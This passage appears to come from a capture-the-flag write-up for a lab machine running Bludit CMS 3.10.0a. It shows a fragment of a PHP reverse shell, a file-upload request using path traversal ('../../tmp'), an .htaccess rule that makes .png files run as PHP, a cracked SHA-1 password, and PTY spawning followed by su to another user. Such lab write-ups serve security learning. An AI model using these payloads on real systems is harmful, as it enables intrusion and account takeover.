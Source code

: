 	$port = 1234;       // CHANGE THIS
	$chunk_size = 1400;
	$write_a = null;
	$error_a = null;
	$shell = 'uname -a; w; id; /bin/bash -i';
	....
	...
	..
	-----------------------------1577569979961725874602175024
	Content-Disposition: form-data; name="uuid"
	../../tmp
	-----------------------------1577569979961725874602175024
	Content-Disposition: form-data; name="tokenCSRF"
	60f8752883482353d1ad20bbff841b4aa9668c71
	-----------------------------1577569979961725874602175024--
	```

	```
	#.htaccess file
	RewriteEngine off
	AddType application/x-httpd-php .png
	```
- Finally, the initial web server account privilege access is obtained.

![img](./img/11.png)

- Get the user account access

	The system file shows that this bludit CMS setup to use the file-based database, three hashed password are found at users.php of two bludit folders. According to the official website for [recovery the admin password file](https://raw.githubusercontent.com/bludit/password-recovery-tool/master/recovery.php), this hashed password is in SHA-1 format. Using the [online tool](https://md5decrypt.net/en/Sha1/) to decrypt the hashed password. The password for hugo account obtains which is **Password120**.

	[img](./img/12.png)

	I find that Hugo reuse his password reuse on their system account. Let's spawn a PTY shell, as this will allow us to use the su command. The low privilege user account obtain.

	```
	www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ python -c "import pty;pty.spawn('/bin/bash');"
	www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ su hugo
	su hugo
	Password: Password120
	```
